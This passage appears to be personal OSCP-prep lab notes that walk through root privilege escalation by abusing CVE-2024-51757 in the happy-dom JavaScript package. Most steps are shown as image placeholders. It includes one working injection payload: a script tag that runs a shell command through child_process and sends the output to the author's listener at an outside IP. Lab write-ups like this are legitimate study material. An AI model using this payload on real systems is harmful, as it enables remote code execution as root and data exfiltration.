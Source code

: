 We do find something super interesting though:

![[Pasted image 20250520094942.png]]

Let's check the binary out.

### CVE-2024-51757

![[Pasted image 20250520095120.png]]

It's some `JS` code including a package called `happy-dom`, I've never heard of it before so I decide to look into it.

![[Pasted image 20250520095437.png]]

![[Pasted image 20250520095447.png]]

Seems pretty serious, good for us.

## Exploitation

I modified it as follows to test it out:

```js
<script src="http://192.168.45.179/'+require('child_process').execSync('id').toString()+'"></script>
```

![[Pasted image 20250520101644.png]]

On `kali` I launched a python webserver beforehand where I received the output:

![[Pasted image 20250520101709.png]]

It indeed executes commands under *root*.

I slightly modify the `pwn.html` file:

![[Pasted image 20250520102219.png]]

And launch it again:

![[Pasted image 20250520102236.png]]

>[!fail]
>Unfortunately it failed this time, even if I URL encode it, guess we need to do it another way.

Instead I went on to do the following:

![[Pasted image 20250520102942.png]]

I created a script called `pwn` as seen above.

I then used `chmod +x` on it to make it executable.

Inside my `pwn.html` file I added the following instead of the `id` command:


[^Links]: [[OSCP Prep]]